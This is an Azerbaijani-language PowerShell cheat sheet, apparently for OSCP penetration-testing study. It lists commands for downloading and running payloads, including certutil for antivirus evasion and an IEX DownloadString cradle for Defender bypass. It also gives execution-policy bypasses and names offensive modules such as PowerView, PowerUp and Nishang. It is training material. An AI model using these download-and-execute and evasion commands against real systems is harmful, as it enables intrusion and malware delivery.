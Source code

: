 
## 🧱 Fayl Transfer və Script İcra

| Əmr | İzah | İstifadə Sahəsi |
|------|------|----------------|
| `Invoke-WebRequest -Uri <url> -OutFile <file>` | Fayl yükləmək | Payload və ya script gətirmək |
| `Start-Process <file>` | Fayl icra etmək | Shell və ya proqram işə salmaq |
| `certutil -urlcache -split -f <url> <file>` | Alternativ yükləmə üsulu | Antivirusu keçmək üçün |

---

## 🧰 Digər Əmrlər və Texnikalar

| Əmr | İzah | İstifadə Sahəsi |
|------|------|----------------|
| `Get-Command` | Bütün mövcud əmrləri göstərir | PowerShell araşdırması |
| `Get-Help <command>` | Əmr köməyini göstərir | Ətraflı izah üçün |
| `Set-ExecutionPolicy Unrestricted` | Script icazəsini dəyişir | Script-lərin icrası üçün |
| `powershell -ep bypass` | ExecutionPolicy bypass | Təhlükəsizlik məhdudiyyətlərini keçmək |

---

## 📦 Faydalı Modullar

| Modul | İzah | Əsas İstifadə |
|--------|------|---------------|
| `PowerView` | Active Directory informasiya toplamaq | Domain enumeration |
| `PowerUp` | Local privilege escalation | Eskalasiya və zəiflik tapmaq |
| `SharpHound / BloodHound` | AD qraf analizi | Hücum yollarının xəritələnməsi |
| `Nishang` | Post-exploitation framework | Command icrası, UAC bypass və s. |

---

## 📚 Qeydlər

- PowerShell `v2` sistemlərdə bəzi modullar mövcud olmaya bilər.  
- PowerShell scriptləri `.ps1` formatında saxlanılır və icra edilməzdən əvvəl Execution Policy dəyişilməlidir.  
- OSCP mühitində **PowerShell logging** və **defender bypass** üçün alternativ metodlardan istifadə olunur (məs: `IEX (New-Object Net.WebClient).DownloadString('<url>')`).

---


